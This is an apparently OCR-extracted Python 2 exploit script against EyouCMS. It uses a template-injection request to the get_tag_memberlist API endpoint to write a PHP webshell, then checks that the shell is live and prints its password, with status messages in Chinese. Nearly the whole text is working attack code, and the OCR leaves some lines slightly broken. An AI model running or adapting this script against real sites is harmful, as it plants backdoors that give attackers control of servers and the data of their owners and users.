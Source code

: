 
```python
python
#!/usr/bin/python
 -*- coding: UTF-8 -*-
import requests
import sys,getopt
import json,base64
import time
class Eyoucms:
    session = None
    headers = None
    password = "ceshi"
    output = "ceshi"
    requesturi = "/?m=api&c=ajax&a=get_tag_memberlist"
    def __init__(self,headers):
        self.headers = headers
        self.getparam(sys.argv[1:])
        self.requestsdata = {
            "attarray":self.createpyload(),
            "htmlcode":time.time()
        }
        self.run()
    def getparam(self,argv):
        try:
            options, args = getopt.getopt(argv, "h:u:p:o:", ["help", "url=","password=","output="])
        except getopt.GetoptError:
            print 'eyoucms-ssti.py -u url -p password -o outputfile'
            return
        for option, value in options:
            if option in ("-h", "--help"):
                print 'eyoucms-ssti.py -u url'
            if option in ("-u", "--url"):
                if(self.request(value).status_code != 404):
                    self.url = value
            if option in ("-p", "--password"):
                    if(value != None):
                        self.password = value
                    else:
                        self.password = "ceshi"
            if option in ("-o", "--output"):
                    if(value != None):
                        self.output = value.replace(".php","")
                    else:
                        self.output = "ceshi"
    def run(self):
        url = self.url.rstrip('/')+self.requesturi
        print "[+] 正在请求目标地址:%s"%(url)
        if(self.request(url).status_code == 200):
            print "
 目标地址%s存活"%url
        else:
            print "[-] 目标地址%s探测失败"%url
            return
        print "[+] 正在向目标地址%s写入%s.php"%(url,self.output)
        if(self.request(url,"post").status_code == 200):
            print "
 疑似成功写入Webshell"
        shell = self.url.rstrip('/')+"/%s.php"%self.output
        print "[+] 正在探测Webshell(%s)是否存活"%(shell)
        if(self.request(shell).status_code == 200):
            print "
 Webshell(%s)已存活\n
 密码：%s"%(shell,self.password)
```